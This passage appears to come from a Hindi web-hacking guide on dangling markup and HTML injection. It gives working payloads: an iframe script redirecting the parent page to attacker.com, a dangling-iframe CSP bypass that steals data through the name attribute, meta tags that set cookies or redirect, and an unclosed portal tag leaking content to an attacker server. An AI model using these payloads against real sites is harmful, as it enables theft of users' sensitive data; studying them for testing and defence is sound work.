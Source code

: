ध्यान दें कि एक **बाल दस्तावेज़ माता-पिता के लिए स्थान संपत्ति को देख सकता है और सेट कर सकता है, यहां तक कि यदि क्रॉस-संबंधी हो।** इसका मतलब है कि आप एक **आइफ्रेम** के अंदर कोई भी कोड लोड करके क्लाइंट को किसी अन्य पृष्ठ तक पहुंच करा सकते हैं, जैसे:
```markup
<html><head></head><body><script>top.window.location = "https://attacker.com/hacked.html"</script></body></html>
```
इसे इस तरह से न्यूनतम किया जा सकता है: _**sandbox=’ allow-scripts allow-top-navigation’**_

एक आईफ्रेम भी इस्तेमाल किया जा सकता है ताकि एक अलग पेज से संवेदनशील जानकारी चुराई जा सके **आईफ्रेम नाम एट्रिब्यूट का उपयोग करके**। इसलिए आप एक ऐसा आईफ्रेम बना सकते हैं जो खुद को आईफ्रेम करता है और एचटीएमएल इंजेक्शन का दुरुपयोग करता है जिससे **संवेदनशील जानकारी आईफ्रेम नाम एट्रिब्यूट के भीतर प्रकट होती है** और फिर प्रारंभिक आईफ्रेम से उसे एक्सेस करके उसे चुरा सकते हैं।
```html
<script>
function cspBypass(win) {
win[0].location = 'about:blank';
setTimeout(()=>alert(win[0].name), 500);
}
</script>

<iframe src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27" onload="cspBypass(this.contentWindow)"></iframe>
```
अधिक जानकारी के लिए [https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes) देखें

### \<meta दुरुपयोग

आप **`meta http-equiv`** का उपयोग करके कई कार्रवाइयों को कर सकते हैं, जैसे कि कुकी सेट करना: `<meta http-equiv="Set-Cookie" Content="SESSID=1">` या पुनर्निर्देशित करना (इस मामले में 5 सेकंड में): `<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

इसे **CSP** के साथ टाला जा सकता है **http-equiv** के संबंध में (`Content-Security-Policy: default-src 'self';`, या `Content-Security-Policy: http-equiv 'self';`)

### नया \<portal HTML टैग

आप यहां \<portal टैग के उपयोग के द्वारा उत्पन्न होने वाली सुरक्षा संबंधी समस्याओं पर एक बहुत **दिलचस्प शोध** पा सकते हैं [यहां](https://research.securitum.com/security-analysis-of-portal-element/)।\
इस लेख के लेखन के समय में आपको Chrome में `chrome://flags/#enable-portals` पर पोर्टल टैग को सक्षम करना होगा, अन्यथा यह काम नहीं करेगा।
```markup
<portal src='https://attacker-server?
```
### HTML लीक

HTML में कनेक्टिविटी लीक करने के सभी तरीके Dangling Markup के लिए उपयोगी नहीं होंगे, लेकिन कभी-कभी यह मदद कर सकता है। इसे यहां देखें: [https://github.com/cure53/HTTPLeaks/blob/master/leak.html](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

## SS-लीक
